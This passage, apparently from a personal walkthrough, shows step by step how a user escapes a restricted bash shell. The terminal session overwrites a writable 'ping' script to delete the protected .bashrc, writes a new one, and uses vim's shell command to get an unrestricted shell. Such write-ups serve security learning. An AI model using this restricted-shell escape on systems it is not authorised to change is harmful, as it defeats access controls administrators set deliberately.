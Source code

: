 First, we use our ping script to remove the .bashrc file we don't want, then we use our tee trick to put a new one in it's place.
confined1@someserver:~$ echo '/bin/rm /home/confined1/.bashrc' | tee '/home/confined1/bin/ping'
/bin/rm /home/confined1/.bashrc
confined1@someserver:~$ ping
/bin/rm: remove write-protected regular file `/home/confined1/.bashrc'? y
confined1@someserver:~$ ls -al
total 16
drwx------ 4 confined1 users 4096 2011-10-28 15:47 .
drwxr-xr-x 6 root        root  4096 2008-11-13 16:54 ..
dr-xr-xr-x 2 root        root  4096 2007-09-12 11:50 bin
drwx------ 2 confined1 users 4096 2011-10-28 15:38 .cache
lrwxrwxrwx 1 root        root     7 2008-11-13 10:22 .profile -> .bashrc
confined1@someserver:~$ echo 'export SHELL=/bin/bash' | tee '/home/confined1/.bashrc'
export SHELL=/bin/bash
confined1@someserver:~$ ls -al
total 20
drwx------ 4 confined1 users 4096 2011-10-28 15:48 .
drwxr-xr-x 6 root        root  4096 2008-11-13 16:54 ..
-rw-r--r-- 1 confined1 users   23 2011-10-28 15:48 .bashrc
dr-xr-xr-x 2 root        root  4096 2007-09-12 11:50 bin
drwx------ 2 confined1 users 4096 2011-10-28 15:38 .cache
lrwxrwxrwx 1 root        root     7 2008-11-13 10:22 .profile -> .bashrc
confined1@someserver:~$

There we go, so now we log out, and back in again. When we log back in, our system will read our new .bashrc file and we'll be home free!

Last login: Fri Oct 28 15:38:34 2011 from 10.201.3.214
confined1@someserver:~$ export
declare -x HOME="/home/confined1"
declare -x LANG="en_US.UTF-8"
declare -x LOGNAME="confined1"
declare -x MAIL="/var/mail/confined1"
declare -x OLDPWD
declare -rx PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
declare -x PWD="/home/confined1"
declare -rx SHELL="/bin/bash"
declare -x SHLVL="1"
declare -x SSH_CLIENT="10.201.3.214 44532 22"
declare -x SSH_CONNECTION="10.201.3.214 44532 192.168.200.253 22"
declare -x SSH_TTY="/dev/pts/0"
declare -x TERM="xterm"
declare -x USER="confined1"
declare -x XDG_SESSION_COOKIE="4c9b5ab174f19aff2abf9176491b333c-1319809823.481121-174941990"
confined1@someserver:~$ cd ..
-rbash: cd: restricted
confined1@someserver:~$ date
Fri Oct 28 15:50:47 CEST 2011
confined1@someserver:~$
You can see that my SHELL variable says I should be using /bin/bash, but when I try to change directory, it tells me I'm still restricted. As a side effect though, since my .bashrc isn't setting my path anymore, I now have the PATH variable of a regular user, so I can launch any program I want, as you can see with date. Now I can launch vim! I should (and do) see the normal vim window, I execute the following...
:set shell=/bin/bash
<enter>
:shell
<enter>
and I'm free!
confined1@someserver:~$ cd ..
confined1@someserver:/home$

